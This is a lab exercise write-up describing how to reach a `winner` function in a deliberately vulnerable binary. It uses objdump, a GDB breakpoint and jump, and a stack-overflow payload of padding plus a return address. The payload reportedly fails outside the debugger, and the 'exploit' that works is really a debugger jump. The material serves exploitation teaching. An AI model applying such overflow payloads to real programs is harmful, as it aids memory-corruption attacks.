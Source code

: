 # ex06 README

## Objective
The goal of this exercise is to exploit a buffer overflow vulnerability to call the `winner` function, which prints a success message.

## Steps

### 1. Identify the `winner` Function Address
We start by finding the address of the `winner` function using the `objdump` tool:
```sh
objdump -t bin | grep winner 
```

This command provides the address of the `winner` function:

```plaintext

08048864 g     F .text  00000025              winner
```

The address of the `winner` function is `0x08048864`.

### 2\. Set a Breakpoint in GDB

We then use GDB to set a breakpoint at a known location in the `main` function:

```sh

gdb -q ./bin
```

Inside GDB, we set the breakpoint:
    
```sh
break *0x08048935
```

### 3\. Run the Program with Arbitrary Arguments

We run the program with arbitrary arguments to reach our breakpoint:

```sh
run a a a
```

### 4\. Jump to the `winner` Function

Once the breakpoint is hit, we manually jump to the `winner` function:

```sh

jump *0x08048864
```

This command redirects the execution flow to the `winner` function.

### 5\. Observe the Output and Continue

We observe the success message:

```plaintext

that wasn't too bad now, was it? @ <timestamp>
```



Finally, we continue the execution, which will lead to a segmentation fault but indicates we have achieved our goal:

```sh

continue
```

### Full GDB Command Sequence

Here is the full sequence of commands:

```sh

gdb -q ./bin
```

Inside GDB:

```sh

break *0x08048935
run a a a
jump *0x08048864
continue
```

### Testing the Payload

We also tested the payload directly:

```sh
payload=$(python -c "print 'A'*76 + '\x64\x88\x04\x08'")
./bin $payload
```

However, running the payload outside GDB resulted in a segmentation fault, indicating that direct exploitation was not straightforward due to the environment setup.

Difficulties Faced
------------------

1.  **Segmentation Faults**: Running the payload directly resulted in segmentation faults. This could be due to differences in how memory is managed outside of GDB.
2.  **Manual Intervention**: The most reliable method was using GDB to manually jump to the `winner` function. This involved manual steps and was not automatable in the same way as other exploits.
3.  **Address Space Layout Randomization (ASLR)**: Potential issues with ASLR could affect the repeatability of the exploit, but in this environment, it was controlled.

Conclusion
----------

The exercise demonstrated a buffer overflow vulnerability and how to exploit it using GDB. While direct exploitation was challenging due to segmentation faults, using GDB allowed us to manipulate the program's execution flow effectively. This method highlights the importance of understanding the environment and tools available when performing security assessments.